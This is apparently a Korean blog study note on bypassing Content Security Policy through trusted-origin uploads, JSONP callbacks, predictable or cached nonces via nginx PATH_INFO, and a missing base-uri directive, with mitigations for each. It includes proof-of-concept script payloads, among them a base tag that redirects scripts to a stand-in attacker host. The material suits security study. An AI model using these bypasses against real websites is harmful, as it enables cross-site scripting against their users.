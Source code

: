 ```yaml
---
title: "[2025-08-02] CSP Bypass"
excerpt: "CSP Bypass"

categories:
  - Justice
tags:
  - [CSP]

permalink: /Justice/[2025-08-02] CSP Bypass/

toc: true
toc_sticky: true

date: 2025-08-02
last_modified_at: 2025-08-05
---
```


## 🦥 본문

## CSP 우회

### 신뢰하는 도메인에 업로드

출처에 스크립트와 같은 자원을 업로드한 뒤 다운로드 경로로 웹 페이지에 자원을 포함

- EX) 공격자가 `/download_file.php?id=177742` 에 자신이 만든 JS 파일을 업로드한 경우에 `self` 정책에 위배되지 않아서 CSP 우회 성공
    
    ```html
     <meta http-equiv="Content-Security-Policy" content="script-src 'self'">
    ...
    <h1>검색 결과: <script src="/download_file.php?id=177742"></script></h1>
    ```
    

### JSONP API

CSP에서 허용한 출처가 JSONP API를 제공하는 경우 callback 파라미터에 스크립트를 삽입하여 공격

- JSONP API : JS 코드처럼 생긴 데이터를 `<script>` 태그를 통해 받아오는 방식. 즉, 서로 다른 도메인 간에 데이터를 주고받을 때 사용하는 기술
    - EX)
        1. 클라이언트에서 showUser 요청
        
        ```html
        <script src="https://api.example.com/user?id=123&callback=showUser"></script>
        ```
        
        1. 서버에서 응답
        
        ```html
        showUser({
          "name": "Alice",
          "age": 25
        });
        ```
        
        1. `showUser()` 함수가 클라이언트에 정의돼 있다면 서버에서 넘긴 데이터 실행
- EX) `*.google.com` 에서 온 출처만 허용한다고 가정. 구글에서 JSONP API를 지원하는 서버를 찾아 `callback`에 원하는 스크립트를 삽입
    
    ```html
    https://accounts.google.com/o/oauth2/revoke?callback=alert(1);
    
    <meta http-equiv="Content-Security-Policy" content="script-src 'https://*.google.com/'">
    ...
    <script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1);"></script>
    <!-- JSONP API 결과:
    // API callback
    alert(1);({
      "error": {
        "code": 400,
        "message": "Invalid JSONP callback name: 'alert(1)'; only alphabet, number, '_', '$', '.', '[' and ']' are allowed.",
        "status": "INVALID_ARGUMENT"
      }
    }
    );
    -->
    ```
    

### nonce 예측 가능

- `nonce` 값이 예측 가능한 값인 경우에 공격자가 유추하여 스크립트 삽입 가능.
    - 예측 가능한 알고리즘 X
    - 현재 시각 기반의 `rand()`, `srand()` 등을 사용하면 예측 가능
    - 의사 난수 생성기 CSPRNG 사용 권장
- `nonce` 값을 담고 있는 HTTP 헤더 또는 `<meta>` 태그 **캐싱** 주의
    - PHP, CGI 계열 스크립팅을 사용하는 경우 `/index.php/style.css` 처럼 뒤에 추가적인 경로를 붙여 접근이 가능
    - 확장자 기반으로 캐시 여부를 판단하는 경우 `.css` 는 일반적으로 정적 파일이므로 캐시에 저장 가능.
        - `.css`처럼 보이는 PHP 동적 콘텐츠인 경우가 발생
        - 캐시 만료 전까지 요청마다 같은 `nonce` 가 돌아오므로 `nonce`를 획득 가능 → DOM XSS 가능
    - 동작 흐름
        1. `index.php` 는 동적으로 페이지를 생성하는 서버의 PHP 코드. 응답에 매번 다른 CSP `nonce` 값을 넣어줌
        2. /index.php/style.css 로 URL 변조 : 정적 파일 .css 처럼 보이게 조작. 
            - 뒤에 있는 URL에서 `/index.php`만 보고 `index.php`를 실행.  `/style.css`는 PHP 코드 내부에서 무시되거나 추가 정보로 전달
        3.  요청의 `.css` 확장자를 본 브라우저는 응답 캐싱
        4. 캐싱 만료 전까지는 같은 `nonce` 가 계속 사용 
            - 해당 CSS URL을 요청하면 같은 `nonce` 값을 받음. 이 값을 script에 넣으면 CSP 우회 가능
    - EX) snippet/fastcgi-php.conf 의 일부 중 아래와 같은 설정을 하는 경우
        
        ```html
         # regex to split $uri to $fastcgi_script_name and $fastcgi_path
        fastcgi_split_path_info ^(.+\.php)(/.+)$;
        -> .php 까지만 실행 대상 파일로 인식. 그 뒤는 추가 정보 (path info)로 처리
        -> 즉 PHP 실행 
        
        # Check that the PHP script exists before passing it
        try_files $fastcgi_script_name =404;
        
        # Bypass the fact that try_files resets $fastcgi_path_info
        # see: http://trac.nginx.org/nginx/ticket/321
        set $path_info $fastcgi_path_info;
        fastcgi_param PATH_INFO $path_info;
        
        fastcgi_index index.php;
        include fastcgi.conf;
        ```
        
        - `index.php/style.css` 를 보냈을 때 아래의 응답이 캐싱이 되어 고정된 `nonce` 값 노출
            
            ```html
            <meta http-equiv="Content-Security-Policy" content="script-src 'nonce-ABC123'">
            ```
            
        - 공격자가 다음과 같이 사용 가능
            
            ```html
            <script nonce="ABC123">alert(1);</script> 
            ```
            
    - PATH_INFO 기능을 사용하지 않을 거면 아래와 같이 설정
        - 끝 부분이 `.php` 일 때만 FastCGI로 넘어가게 수정
        - 또한 `a/b.php/c/d.php` 같이 `.php` 중복 사용을 대비하여 `fastcgi-php.conf` 스니펫을 사용하지 않고 아래와 같이 Nginx 설정 변경
            - 스니펫 : 자주 쓰는 설정 내용을 따로 뽑아서 저장해둔 조각
            
            ```html
            location ~ \.php$ {         
                try_files $uri =404;
                fastcgi_index index.php;
                include fastcgi.conf;  -> fastcgi.conf에는 PATH_INFO가 없음
                fastcgi_pass unix:/run/php/php7.2-fpm.sock;
            }
            ```
            
            - `~ \.php$` 를 통해 `.php`로 끝나는 URL만 처리
            - `fastcgi-php.conf` 스니펫이 아닌 `fastcgi.conf` 을 include하여 사용

### base-uri 미지정

`<base>` 태그는 경로가 해석되는 기본 값 변경. 

- Nonce Retargeting : nonce 가 유효한 스크립트를 공격자의 주소로 유도해서 실행시키는 공격
    - EX) 공격자가`<base href="https://malice.test/">` 를 삽입 하는 경우
        
        → 기존의 `src`가 포함된 스크립트는  nonce도 이미 존재하므로 문제 없이 스크립트 로딩이 공격자의 서버로 바뀌어 실행 
        

`base-uri` 지시문을 임의로 지정하지 않는 이상 `default` 초기 값이 존재 하지 않아 `base-uri`를 `none`으로 지정하여 막아야 한다. 

```html
Content-Security-Policy: base-uri 'none'
```